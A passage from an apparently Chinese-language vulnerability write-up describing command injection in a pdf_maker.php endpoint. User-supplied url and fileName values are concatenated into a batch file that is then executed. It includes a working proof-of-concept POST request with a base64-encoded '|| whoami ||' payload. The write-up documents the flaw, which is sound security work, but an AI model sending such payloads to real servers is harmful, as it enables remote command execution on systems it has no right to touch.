 ```php
    }
```

该分支下会$url参数和$filename参数拼接到cmd中然后写入`exec_wkhtmltopdf.bat`文件，最后执行该文件。但是由于拼接命令的原因，这里构造payload需要用到管道符。（$filename也可以用于命令执行，因为也是拼接命令，所以要完成前一条命令的格式。）

if的第二分支没有任何过滤，危害更大，可以执行任意命令。（如果当php版本大于5的时候，默认进入该分支）。

执行whoami试试，cmd命令拼接完毕后是这样的：`..\\..\\wkhtmltopdf.exe"" || whoami || xxxx`，对拼接进入的url参数命令base64编码即`IiB8fCB3aG9hbWkgfHw=`：

```http
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCB3aG9hbWkgfHw%3D&fileName=xxx
```

